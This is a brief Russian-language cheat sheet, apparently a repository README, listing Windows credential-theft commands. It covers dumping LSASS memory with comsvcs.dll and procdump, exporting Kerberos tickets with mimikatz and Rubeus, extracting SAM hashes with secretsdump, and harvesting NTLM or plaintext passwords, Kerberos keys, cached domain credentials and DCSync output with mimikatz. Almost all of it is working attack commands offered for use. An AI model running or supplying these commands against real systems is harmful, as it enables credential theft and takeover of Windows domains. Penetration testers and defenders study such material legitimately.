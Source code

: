 ## Извлечение Kerberos-tickest через дамп виртуальной памяти:
**Три способа дампа памяти:**  
1) taskmgr.exe → ПКМ по lsass.exe → дамп памяти;  
2) rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full  
3) procdump.exe -ma lsass.exe /accepteula.  
  
Если дамп удалось создать, то билеты можно безопасно извлечь уже на своей стороне:  
mimikatz.exe -> sekurlsa::Minidump lsass.dmp -> sekurlsa::tickets /export  
  
## Извлечение Kerberos-tickest (Rubeus):  
**Список доступных тикетов**: Rubeus.exe triage  
**Извлекаем TGT пользователя**: Rubeus.exe dump /luid:0xfffff /service:krbtgt /nowrap  
**Aditional information**: Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  

## Извлечение хешей SAM (нужны учетные данные пользователя):  
secretsdump.py [domain]/[username]:[password]@[TARGET IP]  

## Извлечение хешей SAM (mimikatz):  
\mimikatz.exe token::elevate lsadump::sam exit  

## Извлечение NTLM/plaintext passwords (mimikatz):  
\mimikatz.exe token::elevate sekurlsa::logonpasswords exit  

## Извлечение Kerberos Encryption Keys (mimikatz): extract aes256_hmac value  
\mimikatz.exe token::elevate sekurlsa::ekeys exit  

## Domain cached credentials:## Позволяет исользовать учетные данные домена, если нет связи с DC.  
\mimikatz.exe token::elevate lsadump::cache exit  

## DCSync (mimikatz):  
\mimikatz.exe token::elevate lsadump::dcsync exit  

